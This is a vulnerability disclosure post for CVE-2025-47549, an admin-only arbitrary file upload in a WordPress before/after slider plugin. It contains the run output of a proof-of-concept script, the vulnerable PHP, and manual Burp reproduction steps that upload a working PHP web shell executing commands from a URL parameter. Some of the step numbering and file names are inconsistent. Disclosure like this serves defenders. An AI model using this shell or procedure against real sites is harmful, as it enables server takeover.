 +++
title = 'Ultimate Before After Image Slider & Gallery – BEAF <= 4.6.10 - Authenticated (Admin+) Arbitrary File Upload via beaf_options_save'
date = 2025-05-07T05:18:12+00:00
hideToc = true
tags = ["CVE", "WordPress"]
description = "CVE-2025-47549: WordPress BEAF plugin authenticated file upload vulnerability allowing admin users to upload arbitrary files."
+++
### CVE-2025-47549

The [Ultimate Before After Image Slider & Gallery](https://wordpress.org/plugins/beaf-before-and-after-gallery/) plugin does not sanitize the file types of the `beaf_options_save` action, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits
* A POC [CVE-2025-47549.py](https://github.com/d0n601/CVE-2025-47549/blob/main/CVE-2025-47549.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```console
python3 CVE-2025-47549.py https://lab1.hacker admin PASSWORD
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
{"status":"success","message":"Options saved successfully!"}
Web Shell Location: https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 68200sec preferred_lft 68200sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86113sec preferred_lft 14113sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:e5:9e:f6:23 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>

```

## Details  
The `beaf_options_save` action calls the `beaf_save_options()` function on line [227](https://plugins.trac.wordpress.org/browser/beaf-before-and-after-gallery/trunk/admin/tf-options/classes/BEAF_Settings.php#L227) of `/wp-content/plugins/beaf-before-and-after-gallery/admin/tf-options/classes/BEAF_Settings.php` without enforcing any file type validation. 

Lines [281-292](https://plugins.trac.wordpress.org/browser/beaf-before-and-after-gallery/trunk/admin/tf-options/classes/BEAF_Settings.php#L281-292) of this function check the http request for `$_FILES` and only validates the mime type agains a generic `application/octet-stream`. It will then store the file in a web accessible directory `/wp-content/uploads/itinerary-fonts`.
```php
    if ( isset( $_FILES ) && ! empty( $_FILES['file'] ) ) {
        $tf_upload_dir = wp_upload_dir();
        if ( ! empty( $tf_upload_dir['basedir'] ) ) {
            $tf_itinerary_fonts = $tf_upload_dir['basedir'] . '/itinerary-fonts';
            if ( ! file_exists( $tf_itinerary_fonts ) ) {
                wp_mkdir_p( $tf_itinerary_fonts );
            }
            $tf_fonts_extantions = array( 'application/octet-stream' );
            for ( $i = 0; $i < count( $_FILES['file']['name'] ); $i++ ) {
                if ( in_array( $_FILES['file']['type'][ $i ], $tf_fonts_extantions ) ) {
                    $tf_font_filename = $_FILES['file']['name'][ $i ];
                    move_uploaded_file( $_FILES['file']['tmp_name'][ $i ], $tf_itinerary_fonts . '/' . $tf_font_filename );
                }
            }
        }
    }
```

## Manual Reproduction
1. Login to the admin panel and navigate to `Before and After Slider -> Settings`.
    * Example: `https://lab1.hacker/wp-admin/edit.php?post_type=bafg&page=beaf_settings`.
2. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
3. Click the `Save` button in the lower right hand corner. 
![test1](/posts/images/cve-2025-47549/1.png)
4. Intercept the POST request in Burp, and append your own file data (ensure you use the correct form boundaries).
```
------WebKitFormBoundarydAJeoqdwR5qxfDb1
Content-Disposition: form-data; name="file[]"; filename="shell.php"
Content-Type: application/octet-stream

<?php
// Silence is golden
if (!empty($_GET['cmd'])) {
    echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
}
------WebKitFormBoundarydAJeoqdwR5qxfDb1--
```
6. Modify the next request containing the form data to set the file name to `poc.php`: 
![test2](/posts/images/cve-2025-47549/2.png)
7. Naviage to `https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php` to execute the proof of concept.
![test3](/posts/images/cve-2025-47549/3.png)
